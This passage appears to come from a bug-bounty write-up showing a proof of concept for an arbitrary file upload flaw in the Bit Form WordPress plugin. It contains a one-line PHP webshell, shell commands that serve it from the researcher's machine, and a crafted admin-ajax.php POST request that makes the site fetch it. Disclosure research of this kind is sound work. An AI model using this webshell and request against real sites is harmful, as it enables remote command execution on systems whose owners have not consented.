 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240821204556.png)

Nice! We can now test for it!

First, we host a PHP webshell file via Python module `http.server`:

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:48:30(HKT)]
└> ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.69.96.69  netmask 255.255.255.0  broadcast 10.69.96.255
        [...]
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:48:32(HKT)]
└> echo -n '<?php system($_GET["cmd"]); ?>' > webshell.php
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:48:52(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Then, send a POST request to `/wp-admin/admin-ajax.php` with GET parameter `action`, `_ajax_nonce`, and JSON object attribute `src` that points to our HTTP server:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icn_save_setting&_ajax_nonce=5bb5d043b8 HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724412605%7CrwbMC64aqDEgN54rhgVKKkWAMiTmYSeFVF3Krk8UlPK%7C74a392fa0d19e2134f69822e321e4ce34145356de815964c65020c6715df5d13; wp-settings-time-1=1724241516; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724412605%7CrwbMC64aqDEgN54rhgVKKkWAMiTmYSeFVF3Krk8UlPK%7C392d7068610920f89b32627fd8b31d70e308941a8f8c15ed2a6d9aff0923c958
Content-Type: text/plain;charset=UTF-8
Content-Length: 46

{"src":"http://10.69.96.69:8000/webshell.php"}
```
